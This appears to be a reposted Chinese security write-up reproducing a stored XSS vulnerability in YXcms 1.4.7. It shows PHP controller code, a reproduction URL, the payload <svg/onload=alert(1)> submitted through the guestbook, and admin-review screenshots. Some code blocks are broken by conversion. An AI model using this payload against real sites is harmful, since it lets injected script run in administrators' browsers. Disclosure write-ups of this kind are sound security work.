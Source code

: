 # YXCMS 1.4.7储存型xss

> 原文：[https://www.zhihuifly.com/t/topic/3297](https://www.zhihuifly.com/t/topic/3297)

# YXcms 1.4.7 储存型xss

## 一、漏洞简介

## 二、漏洞影响

YXcms 1.4.7

## 三、复现过程

### 漏洞分析

前台的文件源码protected/apps/default/controller/columnController.php

```
public function index()
{
    $ename=in($_GET['col']);
    if(empty($ename)) throw new Exception('栏目名不能为空~', 404);
    $sortinfo=model('sort')->find("ename='{$ename}'",'id,name,ename,path,url,type,deep,method,tplist,keywords,description,extendid');
    $path=$sortinfo['path'].','.$sortinfo['id'];
    $deep=$sortinfo['deep']+1;
    $this->col=$ename;
    switch ($sortinfo['type']) {
        case 1://文章
            $this->newslist($sortinfo,$path,$deep);
            break;
        case 2://图集
            $this->photolist($sortinfo,$path,$deep);
            break;
        case 3://单页
            $this->page($sortinfo,$path,$deep);
            break;
        case 4://应用

```
 break;
    case 5://自定义

        break;
    case 6://表单
        $this-&gt;extend($sortinfo,$path,$deep);
        break;
    default:
        throw new Exception('未知的栏目类型~', 404);
        break;
} 
``` `}` 
```

后台的文件源码protected/apps/admin/controller/extendfieldController.php

```
public function mesedit()
{
    $tableid=intval($_GET['tabid']);
    if(!$this->checkConPower('extend',$tableid)) $this->error('您没有权限管理此独立表内容~');
    $id=intval($_GET['id']);//信息id
    if(empty($tableid) || empty($id) ) $this->error('参数错误~');
    $tableinfo = model('extend')->select("id='{$tableid}' OR pid='{$tableid}'",'id,tableinfo,name,type,defvalue','pid,norder DESC');
    if(empty($tableinfo)) $this->error('自定义表不存在~');
    if (!$this->isPost()) {
       $info=model('extend')->Extfind($tableinfo[0]['tableinfo'],"id='{$id}'");
       $this->info=$info;
       $this->tableid=$tableid;
       $this->id=$id;
       $this->tableinfo=$tableinfo;
       $this->display();
    }else{
       for($i=1;$i<count($tableinfo);$i++){
        if(is_array($_POST[$tableinfo[$i]['tableinfo']]))
          $data[$tableinfo[$i]['tableinfo']]=implode(',',$_POST[$tableinfo[$i]['tableinfo']]);
        else
          $data[$tableinfo[$i]['tableinfo']]=html_in($_POST[$tableinfo[$i]['tableinfo']]);
       }
       if(model('extend')->Extup($tableinfo[0]['tableinfo'],"id='{$id}'",$data)) $this->success('修改成功~',url('extendfield/meslist',array('id'=>$tableid)));
       else $this->error('信息修改失败~');
     }
} 
```

中间没什么过滤

### 复现

```
http://0-sec.org/index.php?r=default/column/index&col=guestbook 
```

payload：

```
<svg/onload=alert(1)> 
```

![image](img/d5d8d771adaf8da2e7bbe521974ad814.png)

然后登陆后台，查看审核

![image](img/c15d86f6fe9ce2392e67d0fd2f56d9c7.png)

点击编辑

![image](img/841b6d0af7ed1e66c899bca37d6e664e.png)